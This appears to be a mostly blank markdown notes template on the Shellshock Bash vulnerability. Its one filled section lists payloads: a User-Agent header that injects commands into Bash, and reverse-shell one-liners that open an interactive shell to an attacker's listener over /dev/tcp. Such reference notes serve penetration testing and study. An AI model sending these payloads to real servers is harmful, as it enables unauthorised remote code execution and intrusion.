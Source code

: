 # **Shell Shock**
***Author(s)**: *ghoul@omhm.org*
***Maintainer(s)**: **
***Department**: *DevOps*
***License(s)**: **


## Overview 
***Shell Shock***: Privelege Escalation, Remote Code Execution
Family of bugs in the Unix Bash Shell. Allow execution of arbitrary commands. 


### Exploitation Vectors
* ****
#### *Payloads*
* shellshock user agent = User-Agent: () { :; } ; <$BASH_COMMAND>	
* rshell payload = bash -i >& /dev/tcp/127.0.0.1
	- rshell redirect to listener = bash -i >& /dev/tcp/$YOUR_IP:$PORT
	
#### Tricks
* 
## **Design**:
* *Purpose*: 
* *Contents*:
* *Server(s)*:
	* *Application*:
	* *Database*:
* *Networking*:
	* *DNS*: 
	* *Routes*: 
* *Application Dependencies*:
* *Dependant Programs*:



## **Basic Usage**:
* *Usage*:
* *Common Use Cases*:

* *Examples*:

## *Testing*
### *Test Input*
* *Parameters*:
* *Actions*:

### Test Output
* *Output*:
* *Screenshots*:
* *Video*:
* *Etc*:

## Notes:* *[option]*: 